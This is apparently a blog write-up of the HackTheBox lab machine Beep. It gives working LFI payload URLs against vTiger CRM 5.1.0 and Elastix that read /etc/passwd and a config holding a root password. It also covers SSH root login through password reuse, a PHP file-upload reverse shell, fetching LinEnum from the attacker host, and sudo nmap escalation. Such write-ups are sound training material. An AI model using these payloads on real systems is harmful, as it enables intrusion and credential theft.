 ```yaml
---
title: "Walk-through of Beep from HackTheBox"
header: 
  teaser: /assets/images/2020-05-05-22-24-23.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - gobuster
  - LFI
  - Linux
---
```


## Machine Information

![Beep](/assets/images/2020-05-05-22-24-23.png)

Beep has a large list of running services, which can make it a bit challenging to find the
correct entry method. Skills required are basic knowledge of Linux and enumerating ports and services. Skills learned are web-based fuzzing, identifying known exploits and exploiting local file inclusion vulnerabilities.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 005 - Easy - Beep](https://www.hackthebox.eu/home/machines/profile/5) |
| Machine Release Date | 15th March 2017 |
| Date I Completed It | 16th July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/beep# nmap -sS -sC -sV -oA beep -p- -T4 10.10.10.7

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-21 22:39 BST
Nmap scan report for 10.10.10.7
Host is up (0.039s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) UIDL RESP-CODES APOP PIPELINING USER STLS TOP LOGIN-DELAY(0) AUTHRESP-CODE EXPIRE(NEVER)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            874/udp  status
|_  100024  1            877/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: IMAP4rev1 Completed ACL URLAUTHA0001 OK UIDPLUS THREAD=REFERENCES IDLE ANNOTATEMORE IMAP4 LIST-SUBSCRIBED LISTEXT CHILDREN CATENATE ID THREAD=ORDEREDSUBJECT UNSELECT X-NETSCAPE MAILBOX-REFERRALS ATOMIC STARTTLS RENAME SORT BINARY RIGHTS=kxte MULTIAPPEND LITERAL+ CONDSTORE NAMESPACE QUOTA NO SORT=MODSEQ
443/tcp   open  ssl/https?
|_ssl-date: 2019-07-21T21:38:52+00:00; -3m49s from scanner time.
877/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
Host script results:
|_clock-skew: mean: -3m49s, deviation: 0s, median: -3m49s
```

Lots of ports open, start on normal path looking at port 80.

### Gaining Access

Opening website at http://10.10.10.7 on port 80 automatically redirects to port 443:
![Website](/assets/images/2020-05-11-22-37-57.png)

Login page for something called Elastix. Quick search for default credentials finds this [info](https://dariusfreamon.wordpress.com/2013/11/01/elastix-pbx-default-credentials/). Tried those plus other obvious ones but no luck, so try gobuster to find anything hidden:

```text
root@kali:~/htb/beep# gobuster dir -k -u https://10.10.10.7 -w /usr/share/wordlists/dirb/big.txt
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.7
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/07/21 22:53:47 Starting gobuster
===============================================================
/vtigercrm (Status: 301)
```

Having a look at the site: https://10.10.10.7/vtigercrm - We find CRM is version is 5.1.0

Have a look on searchsploit:

```text
root@kali:~/htb/beep# searchsploit vtiger
vTiger CRM 5.1.0 - Local File Inclusion  |  exploits/php/webapps/18770.txt
```

Exploit shows how to use LFI to navigate to sub-directories, use this in browser to get passwd file:

```text
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

Press ctrl-u to view source, shows as a proper list instead of jumble.

Copy and paste in to vi, remove all users with no login by doing:

```text
:g/nologin/d
```

Then remove non interesting logins, and cut from cursor to end of line with d$ for each remaining user to give simple list like this:

```text
root
cyrus
asterisk
fanis
```

No obvious way forward with this, so save for possible brute force later and look for another path.

Going back to at Elastix, I find it's prone to LFI exploit:

```text
root@kali:~/htb/beep# searchsploit elastix
-------------------------------------------------------------------------------- 
Exploit Title                                    |  Path
                                                 | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------- 
Elastix 2.2.0 - 'graph.php' Local File Inclusion | exploits/php/webapps/37637.pl
-------------------------------------------------------------------------------- 
```

Exploit shows how to expose the Elastix config, use this in browser:

```text
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```

This exposes the user **AMPortal**, with password **jEhdlekWmdjE**

The machine is vulnerable to password reuse, so it's possible to logon as root using this password:

```text
root@kali:~/htb/beep# ssh root@10.10.10.7
root@10.10.10.7's password:   <---- enter jEhdlekWmdjE found above
Last login: Tue Jul 16 11:45:47 2019
Welcome to Elastix 
----------------------------------------------------
To access your Elastix System, using a separate workstation (PC/MAC/Linux)
```

### User and Root Flags

Now have an ssh session on to the machine, check who we are logged on as:

```text
whoami
root
```

On as root user, so can get both flags:

```text
cat /home/fanis/user.txt
cat /root/root.txt
```

## Alternative Method

Brief notes of a different way to complete the box.

Log in to https://10.10.10.7/vtigercrm - user **admin**, password **jEhdlekWmdjE**

Navigate to Settings - Company Details

There is a file upload vulnerability where you can upload a jpg but it doesn't properly sanitise. So you can have shell.php.jpg, then use [Tamper Data](https://addons.mozilla.org/en-GB/firefox/addon/tamper-data-for-ff-quantum/) or [Burp](https://portswigger.net/burp) (already installed on Kali) to intercept request and remove double extension. Should then upload as a php file.

Have an nc -lvp 1234 waiting in a terminal and should get a reverse shell.

We are then logged in as user asterisk, and can get user flag from fanis folder.
When checking we see /tmp, is world writeable, so CD to there.

Start web server on Kali:

```text
root@kali:~/htb/beep# service apache2 start
```

Switch back to the box, pull LinEnum to it and run:

```text
wget 10.10.14.10/LinEnum.sh
bash LinEnum.sh
```

Shows what commands can use sudo without password (same as doing sudo -l). Has nmap in list.

Use nmap to escalate to root:

```text
sudo nmap --interactive 
!sh
whoami
root
```

I can now get the user and root flags, from the paths the same as above.
